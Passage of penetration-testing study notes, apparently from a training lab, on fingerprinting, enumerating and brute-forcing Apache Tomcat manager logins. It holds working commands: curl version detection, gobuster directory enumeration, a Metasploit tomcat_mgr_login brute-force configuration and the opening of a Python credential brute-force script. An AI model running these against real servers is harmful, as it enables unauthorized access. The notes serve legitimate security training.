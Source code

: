 - Running EyeWitness
- Server header in the HTTP response
	- If the server is operating behind a reverse proxy, requesting an invalid page should reveal the server and version
![[Pasted image 20230220132415.png]]

#### Detecting a Tomcat server and version through the `/docs` page
```Shell
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat
```

*The most important file in a Tomcat server is `WEB-INF/web.xml`*

### Enumeration

#### Searching for `/manager` and `/host-manager` pages with `gobuster`
```Shell
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

## Attacking Tomcat

***If we can access the `/manager` or` /host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server*

### Tomcat Manager - Login Bruteforce

#### Bruteforce login using the `auxiliary/scanner/http/tomcat_mgr_login` Metasploit module
```Shell
use auxiliary/scanner/http/tomcat_mgr_login
set VHOST web01.inlanefreight.local
set RPORT 8180
set stop_on_success true
set rhosts 10.129.201.58
run
```

#### Using Burp Suite or ZAP to proxy traffic and troubleshoot a Metasploit module
```Shell
set PROXIES HTTP:127.0.0.1:8080
```
Can use this if you need to see exactly what an MSF script is doing so you can troubleshoot what's happening or explain what's occuring to your client

#### Python script for brute force login
```Python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")
```